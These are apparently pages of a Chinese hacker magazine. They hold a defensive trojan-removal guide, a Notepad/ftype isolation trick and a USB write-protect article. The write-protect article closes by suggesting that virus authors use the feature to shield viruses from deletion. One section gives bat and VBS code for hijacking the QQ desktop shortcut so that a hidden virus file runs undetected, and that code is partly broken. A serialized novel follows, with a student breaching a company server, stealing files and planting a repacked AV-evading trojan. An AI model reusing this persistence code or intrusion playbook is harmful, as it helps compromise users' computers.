文件，前文提到目前流行的木马进程隐藏技术是 DLL 进程插入，DLL 进程插入的目的是隐藏进程，它的前提是必须保证宿主进程存在，在 Windows 中最容易被插入的进程不外乎 explorer.exe 和 iexplore.exe，所以这两个进程是 DLL 分析的重点对象，一方面我们可以在 CMD 下输入 dir /s /a c:\windows\system32\*.dll>dll.txt&&notepad dll.txt 列出当前系统的所有 dll 文件，根据入驻系统的时间来缩小查找范围，另一方面我们可以借助工具，比如 syscheck 等来查看 explorer.exe 和 iexplore.exe 进程所调用的 dll 文件，并可以在选中的 dll 上点击右键通过 google 搜索该文件的相关信息，如图2。


DLL 进程插入技术的作用只是实现进程隐藏，如果重启电脑它自然就不存在了，所以还需要自启动木马延长它的生存期。有时候寻找 DLL 文件觉得麻烦就可以从检查启动入手，找到可执行文件，一般 DLL 木马会使用服务启动，我们只要找到木马服务的服务程序，就好办多了。总之，检查进程的目的在于确定木马进程和木马文件的位置，然后结束木马进程。

##### 4. HOOK API 技术

HOOK API 技术的出现使得很多木马的生存期更长了，比如国内流行的木马 pcshare 就采用了该种技术。我们知道 Windows 从 386 开始就采用了很多新的技术，其中之一就是增加了权限的设置，这里的权限设置不是指 NTFS 的，而是指 CPU 的权限级别。从 386 开始 CPU 将程序的代码和地址分为了四个级别，它们是 ring0-ring3。Windows 为了系统的兼容性，只使用了 ring0 和 ring3，也就是我们通常所说的内核态和用户态。

#### 二、木马的查杀思路

1. 通过端口、进程、服务等信息获取木马的位置，这在上文中已经提到了。
2. 找到木马的文件。找到木马文件不是件容易的事，首先要勾选“我的电脑”→“工具”→“文件夹选项”下的“显示所有文件和文件夹”，并去掉“隐藏受保护的系统文件”和“隐藏已知文件类型的扩展名”前的勾。很多木马会通过修改注册表 `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\Advanced\Folder\Hidden\SHOWALL` 下的 `CheckedValue` 值为 0 的方法来实现隐藏，这种情况下即使我们做了上面的设置也不能找到木马文件，这时候就需要先将其注册表值恢复为 1，然后再进行查找了。我们还可以通过 WINRAR 等软件来浏览文件，因为该类程序调用的是非标准 API（HOOK 不掉）函数，有时候可以帮助我们找到木马文件。GUI 界面中无法找到的我们可以在 CMD 或者 DOS 下查找并进行删除。

##### 3. 结束进程

结束进程通常可以使用任务管理器，但很多木马对任务管理器进程进行了特殊的处理，一般使用它是无法进行终止的，这时候就需要借助 IceSword 等程序来结束进程了。

##### 4. 删除文件

如果在 GUI 界面中无法直接删除的话，比如木马 DLL 文件插入了 explorer.exe 进程，这时候就需通过任务管理器结束 explorer.exe，然后在 CMD 下删除 DLL 文件，再通过任务管理器的“文件”——“新建任务”，输入 explorer.exe 重新启动原进程即可。如果遇到了顽固的木马，我们可以重新启动计算机进入安全模式，然后再删除。当然很多情况下木马入驻系统的同时也在病毒来临的时候，木马和病毒是很难分家的，比如 AV 终结者它就会阻止进入安全模式，而且有很多驱动级的木马在安全模式下也依然会启动。总之，我们不能太依赖于安全模式。借用第三方软件删除文件有时候是必须的，比如 unlocker、强制力文件删除工具、SysCheck 等等！

##### 5. 最后的杀手锏

如果文件怎么也找不到，或者是找到文件怎么也删除不了，我们可以启用 WINPE 进行急救，或者对系统进行还原。但如果碰到 ROOTKIT 类的后门木马程序，我们首先操作失败就会导致系统的崩溃，这时候就可以使用故障恢复控制台来替换感染的文件，使用故障恢复控制台的方法具体来就有两种（以 WinXP 为例）：

(1) 使用 Windows 的启动光盘引导，在启动的时候选择“用命令恢复控制台修复”。

(2) 在 Windows 运行的时候安装，具体的方法为先将 WinXP 的安装启动盘放入光驱，在开始菜单中选择“运行”对话框，输入 `f:\i386\winnt32.exe /cmdcons`（假设光盘符是 f:），当系统提示你是否安装命令恢复控制台的时候，选择“是”就会出现安装向导了，之后选择跳过网络更新，等文件复制完毕后，就安装成功了。

```
f:\i386\winnt32.exe /cmdcons
```

重新启动计算机就会出现“Microsoft Windows Recovery Console”这个选项了。这里需要注意，在“故障恢复控制台”提示符下不能使用“cd”命令更改到根目录，必须使用“cd ..”命令（cd 与 .. 之间无空格，这与 Linux 系统有点不同）进行目录切换。假设服务控制管理器进程 services.exe 被感染了，我们输入：

```
copy f:\i386\services.ex_ c:\Windows\services.exe
```

恢复系统就会提示是否覆盖文件，选择“Y”按“Enter”就完成了。

#### 三、防范

删除木马文件完毕后，我们可以在同目录下建立一个和木马文件名相同的文件夹，比如木马文件为 `c:\windows\system32\server.exe`，我们就可以在 system32 文件夹下建立一个 server.exe 的文件夹，然后在 CMD 下进入 server.exe 文件夹，输入 `mkdir protect..\` 的命令，这样我们建立的 server.exe 文件夹就不会被删除了（这种方法对付 AUTORUN.INF 木马最为有效）。当然我们也可以使用映像劫持的原理，在注册表 `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\` 下建立木马同名文件，然后建立一个名称为 debugger、其值为 `c:\test.exe` 的程序。

```
mkdir protect..\
```

对于木马的防范是一个非常大的话题，中国是一个网马大国，对于陌生网站一定要“手下留情”，注意升级补丁，注意备份系统，比如备份注册表文件等。当我们杀马完毕后只要将原来的备份文件导入就可以让系统恢复到原来的状态了，对系统服务、进程、端口等都进行一些无毒状态下的快照（最好是安装完系统后就做快照），具体的操作我们可以通过dir、tasklist、“netstat -an”来写入一个txt文件，用于发现木马的时候及时对比。如果你只有一台联网的计算机，建议将重要数据保存到外部设备上，比如移动硬盘，U盘，光盘等等。这样不仅可以防止数据的丢失，而且也可以防止数据被木马病毒恶意更改，另外我们还可以安装虚拟机，通过虚拟机浏览互联网的信息获取资料，然后通过Windows的共享机制与真实机器之间进行通信，如果虚拟机中安装的是Linux系统，我们可以通过SAMBA服务与真实主机之间进行通信。

（本文所涉及到的AntiyPorts、knlsc.exe、PowerRmv、syscheck、unlocker已收录到光盘中）

### 记事本也杀毒


宇宙浪人

小菜们都喜欢玩病毒，但每次却都反被其害，这其中有许多病毒又都是一些免杀过的，并且自己也检查不出病毒文件的路径，这该怎么办呢？
遇到这种情况，小菜们第一想到的就是打开“进程管理器”，将一些可疑的进程关掉，但有时也会碰到这种情况：关掉了一个，再去关闭另外一个时，刚才关闭的那个进程马上又运行了，再到注册表里先把启动项删除，再重启电脑试试，刚才删除的那些启动项也又还原了。如此翻来覆去，病毒未杀掉，小菜们却濒临崩溃，这时候该怎么办呢？很多人都会选择还原或者重装系统，其实没必要，我就向大家推荐一种另类的解决方法。

第一步：在“开始”→“运行”栏中输入CMD，打开“命令提示符”窗口。
第二步：输入ftype exefile=notepad.exe %1，这句命令的意思是将所有的EXE文件使用“记事本”打开，

这样原来的病毒就无法启动了。
第三步：重启电脑，我们就会看到打开了许多“记事本”。当然，这其中不仅有病毒文件，还有一些原来的系统文件，比如输入法程序等。
第四步：任意选择一个文件点右键，选择“打开方式”，然后点击“浏览”，转到Windows\System32目录下，选择cmd.exe，这样就可以再次打开“命令提示符”窗口。
第五步：运行ftype exefile=%1 %*，将所有的EXE文件关联还原。现在运行杀毒软件或直接改回注册表，就可以杀掉病毒了。
第六步：在每一个“记事本”中，点击菜单中的“文件”→“另存为”，就可以看到路径以及文件名了。找到病毒文件，手动删除即可，但一定要小心，必须确定那是病毒文件才能删除。建议将这些文件改名并记下，重启电脑后，如果没有病毒作怪，也没有系统问题，再进行删除，

接下来，我简单给大家介绍一下Ftype的用法。在Windows中，Ftype命令用来显示及修改不同扩展名文件所关联的打开程序，相当于在注册表编辑器中修改“HKEY_CLASSES_ROOT”项下的部分内容一样。
Ftype的基本使用格式为“Ftype [文件类型[=[打开方式/程序]]]”，比如上例中的ftype exefile=notepad.exe %1，就表示将所有文件类型为EXE（exefile表示为EXE类型文件）的文件都通过“记事本”程序打开，后面的“%1”表示要打开的程序本身（就是双击时的那个程序）。而ftype exefile=%1 %*则表示所有的EXE文件本身直接运行（EXE可以直接运行，所以用表示程序本身的%1即可），后面的“%*”则表示程序命令后带的所有参数（这就是为什么EXE文件可以带参数运行的原因）。


### 遭遇“U盘无法写入”病毒

Orient

前几天，一好友借用我的电脑，拿回来后就发现电脑感染病毒了，好在这个病毒并不是很厉害，使用杂志中介绍的常用F1杀毒大法结束病毒的进程，然后删除病毒文件和启动项就OK了。本以为这是手到毒除的一桩小事，直到插上U盘后我才发现了另外一个问题：U盘无法写入文件了，也不能格式化，但却可以将U盘中的文件复制出去，向U盘里复制东西，则会出现错误提示，提示说无法创建文件，介质受写入保护什么的，如图1。

难道是病毒没有消除干净？我又仔细检查了一遍，也没有发现什么异常。难道是U盘打开了写保护？可我的U盘上根本就没有锁定的按钮呀。实在找不出原因，我便将U盘拿到别的电脑上试试看是什么情况，结果却发现U盘在另一台电脑上使用则完全正常，读写都没有什么问题，而在我的电脑上换用另一个U盘又出现了无法写入的情况，这下子可以断定是我电脑的问题了。

我在百度上搜索了一下，才知道原来是WindowsXP系统中的一个非常不错的新功能——为USB存储设备添加“只读”属性，它的主要作用就是保护移动设备里的重要数据不被误删除。


由于现在很多U盘为了降低成本都没有带硬件写保护开关（我的U盘就没有），这才使得U盘对病毒的抵抗力不足，也使得U盘成了重要的携带源。不过这种软保护功能到另一台电脑上就失效了，只能在经过设置的本机上应用。了解了原因，解决起来就很容易了，在“开始”→“运行”栏中输入regedit打开注册表编辑器，从中找到HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\StorageDevicePolicies项，在其下添加DWORD键值“WriteProtect”，数值为0，如果已经存在这个键值的话就将其数值改为0，重新插入U盘，我们发现问题解决了，如图2。

在日常的使用过程，我们还可以使用“Autorun病毒防御者”来实现U盘的软保护，双击运行程序，在“辅助工具”中找到“U盘工具”，点击右边窗口中的按钮就可以开启或关闭U盘的软写保护功能了，如图3。

WindowsXP的这个新功能挺人性化的，我们不但可以用它来保护重要数据，还可以用它来保护U盘，不过换个角度想想，这个功能也是把双刃剑，我们同样也可以使用它来保护U盘里的病毒。试想一下，如果我们的U盘病毒在自动运行时打开了软保护，那么就可以实现病毒不被删除了。我用瑞星测试了一下，果然如此。虽然瑞星能够发现并提示清除成功，但打开U盘却发现病毒仍然还在，估计我的U盘就是中了这样的病毒，虽然病毒本

本身不厉害，但如果我们不知道方法的话，在本机上也无法将它彻底清除。同样，如果我们要想让病毒和木马通过 U 盘传播而不被删除，就可以在编写病毒时根据情况添加打开或关闭 U 盘病毒写保护的功能，为我们的病毒和木马添加一道屏障。

（本文所涉及到的 Autorun 病毒防御者已经收录到光盘中）

很喜欢杂志上无数小龙所写的关于木马编程的文章，让我们这些小菜也能有机会去 DIY。虽然和牛人们的那些功能强大的木马比起来有些微不足道，但是能使用 cmd 控制病毒已经可以做很多事情了。

最重要的是还不会被杀毒软件查杀，但是还有一点美中不足，就是无论木马的启动方式，还是使用的快捷方式，都会指向我们的病毒文件，同时病毒还会运行快捷方式本应指向的程序，以避免被用户发现。

#### 一、快捷方式劫持

这个名字是我自己起的，其用意就是被劫持后不管是桌面、快速启动，还是开始菜单中的快捷方式都会指向我们的病毒文件，同时病毒还会运行快捷方式本应指向的程序，以避免被用户发现。

下面我就以劫持桌面上的 QQ 快捷方式为例来写一段参考程序，假设我们的测试病毒文件是 `mm.exe`（其实是一个提示对话框），存在于 `%SystemRoot%`（C:\Windows）目录下。在编写代码前我们需要手工制作一个快捷方式“腾讯 QQ.lnk”，方法非常简单，使用到了图标提取工具“IconSprite”，它可以更改和批量提取图标。


将下面的代码保存为“QQrun.bat”，并建立一个 VBS 脚本用于隐藏 bat 文件窗口。代码如下：

```bat
copy "%USERPROFILE%\桌面\腾讯QQ.lnk" "%SystemRoot%"
:: 把正常的快捷方式复制一份，以便于运行 QQ，省去寻找 QQ 路径的麻烦
del "%USERPROFILE%\桌面\腾讯QQ.lnk"
copy "%SystemRoot%\run.lnk" "%USERPROFILE%\桌面\腾讯QQ.lnk"
exit

start 腾讯QQ.lnk
start mm.exe
exit
```

将上述代码保存为“QQrun.bat”，然后建立一个 VBS 脚本，这个脚本的主要作用是隐藏 bat 文件窗口，代码如下：

```vbs
Dim Wsh
Set Wsh = WScript.CreateObject("WScript.Shell")
Wsh.Run "qqrun.bat", 0
```

将上面的代码保存为“HideQQrun.vbs”，同时 QQrun.bat 便是我们要隐藏运行的 bat 文件。将 HideQQrun.vbs 和病毒程序 mm.exe 一起打包到一个文件中，并在脚本中加入“隐藏运行”命令，填上 `%SystemRoot%`，解压后运行“HideQQrun.vbs”即可完成。


### 鬼隐甄嬛（三）

海边一粒沙

东方浩哲一个人飞快地向出租房跑去，他希望一向懒惰的老四，今天突然神经发作起来去上课，或者出去跑跑步。也许这样就能逃脱女鬼的纠缠，但是让老四早起这件事情直比天上掉人民币还要出奇。不过这么出奇的事情倒还真发生了，东方一跑回家里就发现，不光老四起来了，老三也在，而且房间里还多了一个老婆婆，牙一颗也没有了，浑身上下奇怪的打扮。左手里拿着一根剑不像剑、木头不像木头的东西，右手端着一个小盆，里面是不知道什么东西的黄白色液体。老婆婆嘴里念念有词：“天灵灵，地灵灵，王母娘娘快显灵，妖魔鬼怪跪下全听令。”说完恶狠狠地把手里那盆液体泼向了东方心爱的电脑宝贝。

“天灵灵，地灵灵，王母娘娘快显灵，妖魔鬼怪跪下全听令。”

东方大脑嗡的一声，这不是要自己老命吗。大喊一声住手，然后聚精会神的挡在了电脑前面，结果东方从头到脚被泼了个透。幸好他们刚才打闹的小电脑没有受到任何的伤害。东方身边的火腾腾的往上窜，对老四和老三叫嚷着道：“你们干什么？造反是不是，你要是动我的电脑，我就把你们的皮给扒了。”

东方恶毒的语言，让老三老四起了一身的鸡皮疙瘩，连忙拉着那个老婆婆说道：“神婆，你说我这哥们是不是被鬼上身了啊？”神婆一脸高深莫测的样子说道：“不可能，被泼了童子尿的鬼怪早就已经原形毕露了。”

童子尿？难道刚才泼在自己身上的真是尿？东方想到这里一时没忍住狂吐起来。神婆大声地说道：“这妖怪的道行还真不浅啊，居然能忍到现在，连我都差点看走眼。怎么样现在受不了了吗！你们两个小伙子赶快把他给我按在那里。”话音刚刚落，老三和老四不管三七二十一就把东方按在了那里，这神婆神气的拿出几个道具，又是拍又是擦的。东方浩哲越是解释，这神婆下手越狠。

东方也带着一副哭丧的目光，但是我敢用生命发誓，那纯粹是装的。在心里东方却怀疑这哪是神婆啊，纯粹就是《倩女幽魂》里的那个黑山老妖姥姥吗！东方在心里咒骂无数次老三老四，又揣摩了无数次姥姥的真实身份。

看到东方浩哲一切“正常”之后黑山老妖姥姥才满意的离开了。面带笑容的送走姥姥后，东方浩哲变脸速度比翻书还快，用杀死人的眼神看着老三和老四，本来以为做了好事的老三老四面对东方的愤怒感到茫然。东方也不废话，三下五除二的脱下衣服扔给老三老四之后说道：“洗了去，洗完了给我买套新衣服，不过别想用打折的衣服糊弄我，还有买完衣服给我穿上后请我出去吃饭，我有事和你们说。”

老四把衣服往地上一扔，扯着嗓门嚷道：“凭啥啊？”东方瞪起了眼睛说道：“就凭你们泼了我一身的尿，最可气的是还要我替你们背黑锅，我就把你们那个神经兮兮的姥姥给弄死，你知道我忍受多久了吗？差点就被那个姥姥折磨死了。”

#### 东方浩哲的阴谋

别说得自己跟个圣人似的，你要是想让我相信小博是鬼，也要拿出证据来啊！老三一开始劝东方往嘴里塞饭，大家都说最高超的杀人技巧是借刀杀人，东方明白这个道理，所以一切罪恶都在网吧里实施的。虽然很多地方的网吧都有各种各样的限制，但这对于东方来说都是很容易解决的事情。

东方其实并不算是一个黑客，至少他自己不会编一个属于自己的程序来实现一个目的，不过对于电脑的熟悉和对电脑的快速操作，也只在局部有优势，所以东方是靠着别人开发的软件和工具来掩饰行踪。虽然利润还算可观，但也全都捐献给了那些可怜的孩子们。

东方不敢说自己有多高尚，为那些孩子捐款可能是个很假的行为，但至少东方这么做会被人发现，法律也会从轻处理吧，再说也是求个心安理得。

“老四，其实昨天晚上那个女房东才是鬼！”

“老四，我没跟你开玩笑，今天这么早回来找你，也是因为这件事，害怕你被伤害，所以才急冲冲的……”

在网吧里待了半个小时，对于回到那个鬼屋东方还真是有些害怕，不过不回去老四会不会被鬼吃掉呢？扔下烟头走回鬼屋，走进楼道的时候东方就能感觉到出奇的安静，整栋楼房一点声音也没有。东方心里七上八下的走回了出租屋，所幸的是老四和老三都没事，而且极其安静的在房间里抽烟。

东方看到两个人没事悬挂的心也终于放下了，噗通一声倒在了床上说道：“怎么样？你们俩那边搞定没有，那个女房东是怎么回事啊？”

许久的沉默之后，老三清了清嗓子说道：“我们今天下午去了那个房东的家里，发现到处都是灰尘和狼藉，好像很久都没有人住了，打听一个老伯说这里的房东已经死了。”

对于这个答案东方没有任何的吃惊，因为在他预想的时候，估计这个女房东就已经死了，至于为什么来找自己的麻烦，倒是一个谜。此刻老四一脸沮丧的样子，好像家里的房子着火了一样。老三看了看老四和东方说道：“你们确定没有出现幻觉什么？你们确定这个世界上没有鬼的存在？”

老四不知道为什么怒气冲冲的扔下烟头说道：“没有就是没有，我根本不相信小静是什么鬼，也许这一切只是一个误会，你们都不要乱猜疑。东方你赶快把那个网站给搞定，这样小静就会出现了。”东方在老四愤怒的眼神中看到了悲哀，他宁愿相信自己喜欢的女人是被误会了，也不愿意相信这个女人是邪恶的，哪怕这个女人根本就不在乎他。东方沉默了一会儿说道：“那个网站可能我搞不定。”

老四绝望的看着东方，这种绝望不知道是来自于不能见到小静的思念，还是不能证明小静清白的倔强。他脸上的绝望和愤怒逐渐转化成了一种伤感：“你再试试看吧，这件事搞不清楚，我们谁也不能安心的。”

老三一副事不关己的样子说道：“不是我们，是你们俩，我可不在其中，万一哪天女鬼找上门来，可不关我的事啊！”

在生死面前，没有人有资格要求谁站在勇敢的立场上，所以东方点点头说道：“那现在还不赶快滚回学校去，没准今晚女鬼会找来的。”

可恶的老三一听东方发了逐客令，还没等到大家反应过来的时候，转身就飞奔了出去，这可比后面跟只老虎的速度还要快上几倍。东方看着一直沉默的老四说道：“你也别这样，事情总会真相大白的，有些事实就是需要接受的。”

老四倔强的扭过头说道：“我要睡了，你去弄电脑吧！”看着老四失落的样子，东方心想也许这个时刻他需要静一静吧。于是就打开了电脑，看到了电脑屏幕上的花花草草，东方在这一刻突然感觉到莫名的空洞。打开电脑需要干什么呢？聊天没那个心情，又不想入侵。突然他觉得很累，仿佛一切都没有了意义，在这一刻他已经没有恐惧，反而觉得自己空虚的不想活下去了。

想关掉电脑又睡不着，不关电脑又没事做。就在东方开始烦躁的时候，QQ不知道为什么自动上线了，在这一刻东方觉得自己的电脑是被人入侵了，但是他没有急于关掉QQ，关掉电脑或者开始查杀病毒，而是静静的看着电脑上面的QQ。偶尔有几个群在跳跃着，无非是在夜晚无聊的时候打打屁而已。他需要的是更加新鲜的东西，比如女鬼会突然提示一些什么。

几分钟之后果然有一个头像在跳跃着，东方连忙打开对话框，原来是周欣。虽然有些失落，但是在这个时候有个自己喜欢的女孩子陪在身边也是一种安慰。但是周欣却上来就发给东方一段IP地址，说这是东方的一个朋友让她转交给他的。然后一句拜拜我玩劲舞去了，就消失的无影无踪。

女人，是一个非常危险的毒药，当她让你甜蜜的时候，你会觉得这个世界上你是最幸福的人，当她厌恶你的时候，她会让你觉得你是这个世界上早已被遗弃的可怜虫。现在东方就是这样的感受，苦涩，那种说不出的痛苦让东方有那么一点想哭的冲动。

如果东方不是用我是男人所以不哭的方式来约束自己，他可能要为周欣哭过无数次。也正是这个信念让东方在周欣有过男友到现在也没有掉过一滴眼泪。但是，不哭不代表不痛苦，笑不代表很快乐。剩下的时间东方只好看着那个IP，觉得莫名其妙，这到底是什么呢。在那么很突然的一瞬间，东方发现那是今天入侵的那家公司的IP，以及一个莫名其妙的端口。

由苦闷到快乐只是一瞬间的事情，对于东方这样的人来说，一个重大技术突破可以暂时抑制情伤的疼痛。也就是说技术是一种止痛药，技术灵感在的时候伤不会痛。不在的时候疼痛依然记忆犹新，所以很多像东方的人沉迷在网络中。

首先第一件事就是弄了一个IP代理，对于一个在网络中常年裸奔的人来说，穿上衣服是很艰难的抉择。不过为了不在大牢里面蹲坑，所以只好弄了代理和反侦查的软件，一切搞定之后东方利用这家公司的内部IP和端口果然非常顺利的进入了服务器。

像东方这样的人有一个坏毛病，无论入侵了人家的服务器还是电脑，都喜欢在里面乱翻一些资料和文件，当然有些时候还会翻到一些少儿不宜的东西。不过东方在这里看到的都是一些加密非常严谨的文件，有几个电脑上线时长最多的可以超过几万个小时，这是一家什么公司呢？

好奇是每个人具备的天性，无论《好奇害死猫》这样的电影怎么反映好奇会有怎么样的下场，但是也依然无法阻碍人们猎奇的心态。

虽然东方批量的下载了里面很多的机密文件，而就在下载的同时，那几台的警报器却响了起来。就在这千钧一发的瞬间，东方连忙清理了所有入侵的痕迹，然后迅速的退出了服务器。在退出的那一瞬间东方可以感觉自己心里狂烈的跳动。以前他也入侵过大大小小不少的服务器，但是他直觉告诉自己，这个服务器绝不简单。从这个服务器的各种设置上来看，这个公司有很多高手，而且很多防火墙都是网安部门提供的。

东方抬起头，时钟已经指向了凌晨三点。如果明天自己还不去上老师那儿报道，那会有什么样的结果呢？东方简直不敢想象下去。而且明天还要找周欣问问这个IP和端口到底是谁给她的，这个是必须要了解的。他相信这个人可以解开一切的谜团，不过现在最重要的是去睡觉。东方漫不经心的走到窗台，突然他发现楼底昏暗的灯光下站着一个女人，头发轻舞的飞扬着。从这个身形来看这不就是那个诡异的女房东吗？东方从来没有拉窗帘睡觉的习惯，第一他讨厌晦暗的感觉，第二如果有谁想窥探，他绝对不会反对，如果是个美女窥探他更不反对了。所以站在灯光下的东方也一定被那个女鬼小静看的一清二楚了。小静慢慢的抬起头冲着东方笑了笑。

虽然离的很远，但是东方却真真实实的感觉到了这个笑容，猜不透那是一种什么样的意味。东方跑到老四的床边大声的叫嚷着：“老四，快醒醒，醒醒，我看到小静了。”

老四一听到小静这两个字，马上一个鲤鱼打挺的站了起来，四周巡视着说道：“在哪里，哪里呢？”

东方指了指窗台说道：“楼下！”老四条件反射的冲到了窗户前，望眼欲穿的看了下去，然后一脸愤怒的说道：“你小子是诚心耍我是不是？楼下连个鸭毛都没有。”

东方疑惑的走到窗前看了下去，突然感觉头皮开始发麻。仅仅是十几秒的事情，楼下却空空荡荡的寂静。这栋房子四周都是空旷的场地，根本就没有什么可躲藏的地方，那么是自己刚才眼花了吗？

老四愤怒的看了看东方，是的他把东方的这种行为认为是玩弄他的情感。东方伸长了脖子看了半天，确定没有人后才转过身不好意思的对老四说道：“对不起啊，是我看错了，好了，去睡觉吧。”老四不高兴的躺回了床上，东方也躺了下去。

不到四个小时，东方就被老四吵醒了。老四摇晃着东方的胳膊说：“对了，昨天晚上忘记问了，你查到线索没有？”

#### 腰膝剧痛

东方懒洋洋地坐了起来说道：“差一点，被发现了，所以里面的一些秘密都没有拿到。”

“晕，这么好的机会都浪费了，你真是笨蛋！”老四焦急地开始数落起东方来。东方也懒得争辩，所有被感情冲昏了头的人，智商都比较低下，而且神经也是属于错乱状态下的。所以东方也没争辩，洗了把脸就向学校奔去。

东方来到学校的时候已经明显迟到了，好在大学对于每个学生都是很宽松的，所以迟到就迟到了。老大几个破天荒地看到东方这么早来，简直比看见外星人还要新鲜。几个人窝在底下开始打屁，教授在上面说的什么几个人根本就心不在焉。

一堂课总算是熬下来了，东方一下课就冲出了教学楼，打听无数个人之后，才知道周欣一下课就跑了出去。打听具体位置之后东方就直接赶了过去。

东方早就发现周欣的身影，不时地依偎在别人的怀抱里。东方看到的是两个人激情的拥吻，每个人都受不了自己喜欢的人被别人亲吻着，在这个时候每个人都有两种选择，第一种是爆发，前提是这个女孩是你女朋友或者老婆的状态下；第二种是沉默，前提是这个女孩根本就没把你当回事。你不沉默，爆发也没用。所以东方沉默了，看着自己心爱的女人和别人缠绵不休，除了心口很痛，再者东方做了一个决定，以后永远都不会为这个女孩难过悲伤。

周欣终于在醉人的缠绵中清醒了过来，看到东方略微有些不好意思，羞涩的一笑说道：“可以让我和你谈谈吗？我有很重要的事情要和你说。”

那个男孩点点头，东方把周欣拉到了一角，开门见山的说：“昨天你给我的QQ留言，是什么意思？”周欣不解的看了看东方，说道：“是你的朋友给我的啊，用你的QQ发给我那些东西，然后晚上九点多以后给你。”

东方浩哲愣了，难道自己早已经被别人入侵了？原来自己每走一步都是在别人的操纵之中，仿佛一切都堕入了黑色漩涡里！

在这个世界上有很多解释不清的事情，是无法用正常的思维方式来思考的。但越是解释不清的事情，人们越喜欢追逐真相。哪怕这件事会给当事人带来多大的危害都无所谓。重要的是死得明明白白。

以前的生活无非是上网入侵几个网站，搞几台肉鸡。这样的生活对于东方来说是平淡且无聊的，但是偏偏在现实生活中的东方又是那么的平凡。所以有的人黑站，只是为了证明自己的价值，当然也不排除无聊者横扫千军。也有人沉迷于游戏当中，因为那里有法宝，有妖怪任由自己欺负，有装备，还可以升级，更有那些虚构的友情和爱情，一切都比现实要来得完美。

东方是个平凡的大学生，所以这样的生活他当然尝试过。现在虽然也是在这样的生活中继续着，但是却格外有了意义，因为现实中的危机需要网络化解，其实这一直都是东方向往的生活。

他低垂着双手，呆滞注视着屏幕的双眼都会让人觉得很可怕。但是让东方觉得害怕的是现实中的人侵，他就像是一只困兽，很害怕那个该死的报警器再响起来，毕竟没有哪个正常人会想到进监狱里坐几年的牢。

东方充分地发挥了捡破烂的天性，只要带有 JPG 等图片类型的文件都会下载回来，也许这是养成的一种习惯。以前经常看到别人电脑里有大量的图片，如果这个肉鸡不是美女的，那么大部分图片就是儿童不宜的图片。

每当这个时候东方都会非常得意的拿到寝室去和兄弟们一起分享，几经辗转，由同学传到其他同学，转来转去竟然连无数女生都看过了这些图片，最后有段时间女生们看到东方都会带着又爱又恨的眼神，恶狠狠的对东方说：“变态！”东方也常常在想是不是这些图片害得自己找不到女朋友。

技术上的问题，东方只好一边学习一边钻研。而老四好像被那个诡异的女房东勾了魂，一边开始研究各种神秘事件，一边在网上寻找答案。东方的热情都被激发了，他们细细地看了看这个邮件的地址，纯属就是一堆数字和字母，没有任何的讯息。不过这些在东方的眼里已经不重要了，这些日子的苦心钻研，东方真的很想大显身手，现在终于有机会，也不管这个端口是真是假，是不是一个圈套了。

有时候看到老四对自己这么好，突然东方被一封神秘的邮件吸引了，里面又是一串神秘的代码。不用多想，东方就知道这和上次一样是一个神秘的端口。所有的热情都被激发了，他们细细地看着这个邮件的地址，纯属就是一堆数字和字母，没有任何的讯息。


东方把这件事情前前后后好好地揣摩了一番。不过这几台电脑里没有多少图片，而且这几台电脑里安装的也只是一些系统软件，但是东方检查了一下这些电脑的开机记录，发现这台电脑除了上次入侵后，只关机了一次，在更换了一次Vista系统后，就一直开机到现在。一台只有操作系统，没有其他软件的电脑，整天开机的目的是什么呢？东方虽然无法在这几台电脑里找出一些可以证明异常的程序，却敢肯定这几台电脑里面一定有着不可告人的秘密。

东方把一个远程控制软件无声无息的拖到系统盘的隐藏文件中，这是东方精心研究很久的免杀木马，其实这个木马本身就免杀过了，但为了专门针对这个神秘公司，东方不得不重新加壳。东方测试了一下木马，上线成功后就断开了连接，如果停留的时间太长，或者下载的东西太巨大，那么一定会被对方察觉的。所以他运行了一个可以控制远程肉鸡下载速度的软件，并且把下载速度设定为0.5k，总结上次的经验，东方总感觉对方发现自己的原因很有可能是从网速上察觉出来的。

下载的图片有的很大，有的很小，缓慢的下载速度让东方觉得有些焦急，于是开始随意的翻看着对方电脑里的文件，但是结果让东方很失望，索性扔下电脑，站起来活动活动筋骨。看着黝黑的窗外，想起那晚小静站在窗外那诡异的眼神，就不由得心有余悸。总能感觉到窗外似乎隐藏着什么。

东方心惊胆颤的走到窗前，向下望去，街道上除了昏暗诡异的街灯，林立在街道两旁的树木和摇曳不定的树影外，其他的什么都没有。东方终于松了一口气，自从上次之后，他总感觉被小静监视一样。有些时候背对着窗户吃饭都会感觉有一双眼睛在盯着自己。

东方收起烦恼的情绪，刚一转身却发现对面楼房的窗帘有一块是残缺的，伸出来一个望远镜的探头，在黝黑的夜晚里像是一个恐怖的怪兽，每时每刻都注视着东方的一举一动。东方先是一惊，转而惊讶，最后全都被愤怒所代替了，他穿上衣服奔向了对面的楼房。

夜晚的风有些凉，足以让一个人冷静下来。如果对方真的想监视自己，那么好吧，让他监视去吧。他会做一场好戏给对方看，让他被自己的阴谋所害死。东方想到这里又走了回去。回到房间里，安静的坐在电脑前，脑袋里飞快的旋转着，想着怎样把那个可恶的家伙推入到一个陷阱里去。

正在沉思的时候，那个神秘公司里的图片已经下载完毕了。对面楼上那个该死的家伙让东方一点心情都没有，心里总是忐忑不安的。他关掉了电脑躺在床上，双眼微闭，注视着对方那台望远镜。

不知什么时候东方睡着了，醒来的时候发现窗帘不知在什么时候已经拉上了，所以房间里陷入了一片灰暗之中。东方从床上爬了起来，看了看外面，清晨的阳光很刺眼，估计是老四他们害怕自己睡的不舒服，所以早上来的时候顺便就把窗帘拉了起来。东方对老四他们越来越懂事感到很满意。不过看了看桌子上的闹钟，已经10点了，但是到处都找不到早餐。老四这个家伙，拉了窗帘就不带早餐了。相比之下东方还是更希望老四能够多带些早餐来，因为早上不拉窗帘一样可以睡觉，但是不吃早餐确实有些难受。

东方打开了电脑，想看看昨天下载的图片。打开了图片，东方却觉得这些图片一点价值也没有，都是一些人的相片，有老有少，有男有女，很显然对于东方来说这些图片一点价值也没有。

正当感到烦闷的时候，门开了。老四拎着吃的走了进来，解释着说道：“今天老师发神经来了个大抽查，所以为了帮你写检讨，我才这么晚来，喏，这是你的。吃完了汇报一下你这几天的收获。”

“哦，好的，确实有点新的进展。”东方咬着油条喝着豆浆说道。

“真的？那有小静的消息了吗？”

看着老四兴奋的表情，东方有点难受，忽然想起了什么说道：“对了，早上你确实没来？”

老四点了点头说道：“确实没来！”

